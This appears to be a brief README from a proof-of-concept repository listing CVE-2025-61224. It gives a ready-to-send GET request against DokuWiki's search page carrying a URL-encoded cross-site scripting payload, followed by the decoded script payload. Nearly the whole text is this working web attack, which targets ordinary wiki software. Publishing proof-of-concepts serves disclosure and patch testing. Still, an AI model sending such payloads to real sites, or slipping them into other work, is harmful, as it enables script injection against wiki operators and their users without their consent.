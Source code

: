 # poc
checkedPocs

#CVE-2025-61224
poc: GET https://<host>/dokuwiki/doku.php?id=start&do=search&q=1%20%40%3Cscript%3Eprompt%60xss%60%3C%2fscript%3E
Payload: 1 @<script>prompt`xss`</script>
